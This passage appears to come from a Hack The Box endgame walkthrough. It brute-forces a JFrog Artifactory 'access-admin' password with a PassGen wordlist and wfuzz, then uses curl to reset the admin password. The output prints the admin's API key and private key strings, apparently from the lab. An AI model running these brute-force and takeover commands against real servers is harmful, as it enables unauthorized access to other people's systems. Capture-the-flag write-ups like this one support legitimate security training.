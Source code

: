 Generate a wordlist list with [PassGen](https://github.com/Broham/PassGen) and brute force access-admin password with wfuzz:

```
$ python passgen.py -o ~/htb/endgames/rpg/passwords.txt -n password
22220 passwords written to /root/htb/endgames/rpg/passwords.txt

$ wfuzz -c --basic 'access-admin:FUZZ' -w passwords.txt -u 'http://10.13.38.19:8081/artifactory/api/v1/system/health' -H 'Content-Type: application/json' --hc 401
000000003:   404        5 L      15 W     79 Ch       "Password12"

$ curl -s -uaccess-admin:Password12 -XGET 'http://10.13.38.19:8081/access/api/v1/system/ping' -H 'Content-Type: application/json' 
OK
```

Change access-admin's password as described [here](https://www.jfrog.com/confluence/display/RTF6X/Managing+Users#ManagingUsers-RecreatingtheDefaultAdminUser):

```
$ curl -s -uaccess-admin:Password12 -XPATCH 'http://10.13.38.19:8081/artifactory/api/access/api/v1/users/admin' -H 'Content-Type: application/json' -d '{"password":"snovvcrash.r0cks!"}'
```

```json
{
  "username" : "admin",
  "email" : "jfrog-admin@roundsoft.local",
  "realm" : "internal",
  "status" : "enabled",
  "allowed_ips" : [ "*" ],
  "created" : "2019-11-16T17:25:13.904-08:00",
  "modified" : "2020-09-12T13:40:35.019-07:00",
  "last_login_time" : "2020-06-14T23:53:36.039-07:00",
  "last_login_ip" : "10.10.14.9",
  "custom_data" : {
    "public_key" : "JUHfDLxBPMe4YZbWLKdbams2ZTPq3rmG1zxgTFhrFQEh8fUTDWfNMxDka1ipqdZwGLZY6dhmWpZrYfefNiSQRMYGCidZs6YJEEwAgAJ4nEbyYE9KybxXWsSuHJ2VB1xpwsf1P",
    "apiKey_shash" : "CVH6pG",
    "apiKey" : "AKCp5e31BNLmPhjFrkk6oPKecoKcypYtxSY9QrMvDSHMWVgghVLFqfdpENgSfzQRqZsJmg1Pm",
    "updatable_profile" : "true",
    "private_key" : "JR5cohej8r9cKXYVgnxhLowKuQWaX4AjMQYxt2Up6AADGw6eaUkqfh3wRnPHTuC1cEeF24i1uwKQa4a8QH4G7QVLyGw2Ao5CAMSo451bu99myYXzbXhguUN9JnDwKVymHDws3JXHZ4iprQKzfdt79KJmNXCvJ6syqvBzoXNKxqCm8pYXhLBHDSGHu2AXbjmzGa8idkteMPXqvq9XqRNuiP8aUCPUQFUsSjic4LxRoQQtDBNjmjFGcbGLK7Gx9XotVBRyvB3pjcFxNJHA7KmTzy19qx1wa5YfEM2TmN48h8qxnpyqS9tZpQ84vr4VWXKnhok8XFPEaB5PbxHxhUTXcXnfumPYm1MDQtyp6zXQzxUB3PfGXMfF9LHvGwzwXH1mLZv3d2R2B5NwUU8RpQ3A2fXV6fvstkeyfqzprZmeqC2o9zHSc75KYQEhHqcoK8b9Yn1dcKbAdmevkAGQpjpfd8a8",
    "artifactory_admin" : "true"
  },
  "password_expired" : false,
  "password_last_modified" : 1599943235019,
  "groups" : [ ]
}
```
